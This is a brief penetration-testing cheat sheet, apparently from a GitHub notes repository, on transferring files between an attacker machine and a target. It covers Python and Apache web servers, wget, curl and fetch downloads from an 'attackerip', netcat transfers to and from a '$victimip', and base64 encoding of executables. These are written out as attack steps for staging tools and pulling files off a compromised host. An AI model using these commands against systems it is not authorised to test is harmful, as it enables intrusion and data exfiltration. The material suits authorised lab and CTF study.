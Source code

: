 # Python SimpleHTTPServer

## on Attacker

```
python -m SimpleHTTPServer
```

## python3

```
python3 -m http.server
```

## on target

```
wget <attackerip>:8000/filename
```



# Apache

## on Attacker

```
cp filetosend.txt /var/www/html
service apache2 start
```

## on target

```
wget http://attackerip/file
curl http://attackerip/file > file
fetch http://attackerip/file        # on BSD
```



# Netcat (From Target to Kali)

## Listen on Kali

```
nc -lvp 4444 > file
```

## Send from Target machine

```
nc <kali_ip> 4444 < file
```



# Netcat (From Kali to Target)

## on target, wait for the file

```
nc -nvlp 55555 > file
```

## on kali, push the file

```
nc $victimip 55555 < file
```


# Extra:

> To send the executable file to your machine:

base64 executable

- copy the output
- paste it in a file called file.txt
- decode it and create the executable

```
base64 -d file.txt > executable
```